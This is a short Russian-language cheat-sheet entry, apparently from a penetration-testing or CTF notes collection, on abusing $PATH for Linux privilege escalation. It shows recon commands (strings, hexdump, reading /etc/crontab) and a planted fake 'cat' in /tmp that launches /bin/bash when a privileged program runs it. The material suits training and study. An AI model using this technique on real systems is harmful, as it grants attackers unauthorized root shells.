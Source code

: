 # Abuse $PATH

Внедрение вредоносных  исполняемых файлов  и последующее их исполнение с более высокими привилегиями возможно только после определения уязвимых исполняемых файлов в коде исследуемого файла. Для их поиска можно использовать следующие утилиты под рукой&#x20;

```
hexdump -C ./target
strings ./target
```

Помимо кода, источником уязвимых файлов может стать планировщик, пользовательские скрипты.

```
cat /etc/crontab
cd / && find / -iname *target* 2>/dev/null
```

Инъекция вредоносного пути  с примером создания исполняемого файла для запуска шела   выглядит.

```
#1
export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/cat
chmod +x cat
```
